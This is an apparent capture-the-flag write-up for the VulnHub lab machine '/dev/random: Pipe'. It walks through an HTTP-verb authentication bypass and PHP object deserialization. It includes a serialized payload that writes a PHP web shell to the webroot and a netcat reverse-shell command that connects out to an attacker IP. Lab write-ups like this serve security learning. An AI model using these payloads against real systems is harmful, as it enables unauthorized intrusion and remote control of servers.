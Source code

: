 # Pipe

| Name | /dev/random: Pipe |
| --- | --- |
| Date release | 2 Oct 2015 |
| Author | Sagi- |
| Link | https://www.vulnhub.com/entry/devrandom-pipe,124/ |

## Machine Info
Machine IP: 192.168.26.130

## Start of enumeration

GET requests to http://192.168.26.130/index.php are redirected to `index.php` and asks for credentials.  
Changing the request to POST or even something that does not exist like "GETS", we can bypass and get the `index.php` page.

Looking at the source-code we find an interesting JS file:

![](Pipe/Untitled.png)

Accessing http://192.168.26.130/scriptz/ we can find more files.

![](Pipe/Untitled1.png)

The file `log.php.BAK` file seems to be a logger:

![](Pipe/Untitled2.png)

Looking back to the `index.php` source-code we can see the parameters that are submitted in the form:

![](Pipe/Untitled3.png)

We now intercept the request for “Show Artist Info” in burp:

![](Pipe/Untitled4.png)

![](Pipe/Untitled5.png)

Decoding the `param` value:

![](Pipe/Untitled6.png)

It seems that in this case a `Info` type object is being created. We know that a `Log` object will invoke the logger file and allow us to write to the webroot. We now attempt to tweak the request so that we can write some data to the webroot via the Log object.

## Writing to disk via parameter
Lets attempt to write a simple php web shell to `/scriptz/rce.php`:

```python
param=O:3:"Log":2:{s:8:"filename";s:29:"/var/www/html/scriptz/rce.php";s:4:"data";s:41:"<?php$cmd=$_GET['cmd'];system($cmd);?>";}
```

It works! Our `rce.php` file is there.

![](Pipe/Untitled7.png)

## Reaching RCE
The remote command execution can be triggered via http://192.168.26.130/scriptz/rce.php?cmd=id

![](Pipe/Untitled8.png)

## Reverse Shell
Getting a reverse shell is trivial:
```
http://192.168.26.130/scriptz/rce.php?cmd=nc 192.168.26.128 4444 -e /bin/bash
```

![](Pipe/Untitled9.png)